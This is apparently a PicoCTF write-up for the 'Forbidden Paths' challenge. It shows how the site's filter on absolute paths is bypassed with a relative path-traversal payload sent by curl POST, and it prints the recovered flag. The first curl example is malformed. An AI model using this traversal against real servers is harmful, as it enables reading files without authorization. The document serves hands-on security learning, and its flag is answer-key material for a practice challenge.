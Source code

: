# Forbidden Paths #

This is the write-up for the challenge "Forbidden Paths" challenge in PicoCTF

## The challenge ##

### Description ###
you can find the challenge [here](https://play.picoctf.org/practice/challenge/270)  
the challeges says:  
> Can you get the flag?  
> We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?  

![](img/mission.png) 

## How I Solve The Challege ##
In the website there are only a path input.  
![](img/homepage.png)  
on inspection I see nothing wrong with the website, the form just send a POST request to the `/read.php` page.  
for example we can send the next request:  
```console
$: curl http://saturn.picoctf.net:<port>/"filename=read.php"
```
after tring and failed to get the `/flag.txt` file (we know that "the website is filtering absolute file paths." from the description of the files) we ttried to get the `../../../../flag.txt` we successfuly see the data data, with regex we found the key:

```console
#: curl http://saturn.picoctf.net:55736/read.php -X POST -F "filename=../../../../../flag.txt" -s | grep -Eo picoCTF{.*?}
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
```

Voila!!! 😎  
The flag is `picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}`  
Cheers 😄  


